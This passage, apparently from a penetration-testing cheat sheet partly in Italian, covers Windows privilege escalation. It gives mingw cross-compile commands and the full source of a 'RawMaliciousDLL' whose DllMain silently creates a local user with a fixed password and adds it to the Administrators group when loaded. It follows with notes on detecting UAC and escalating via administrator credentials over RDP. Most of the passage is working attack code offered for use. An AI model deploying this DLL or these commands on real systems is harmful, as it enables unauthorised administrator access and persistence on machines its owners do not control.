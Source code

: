 
Per la compilazione (from Kali, 64bit): 
- `kali@kali:~$ x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`

## RawMaliciousDLL

```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

Per la compilazione (from Kali, 64bit): 
- `kali@kali:~$ x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll`

## UACBypass

The UAC bypass becomes necessary when the following conditions occur:
- user member of the Administrators group
- shell with "Medium Mandatory Level" integrity level

To confirm that UAC is active:
- with `whoami /all`, between the group names we should read 'Medium Mandatory Level'.
- with `reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System`: if "EnableLUA" is 1, then UAC is active

### RDP

If target exposes RDP, use the credentials of one of the *Administrators* to access the machine. Start a cmd.exe with administrator privileges to obtain full privileges.

### Invoke-EventViewer
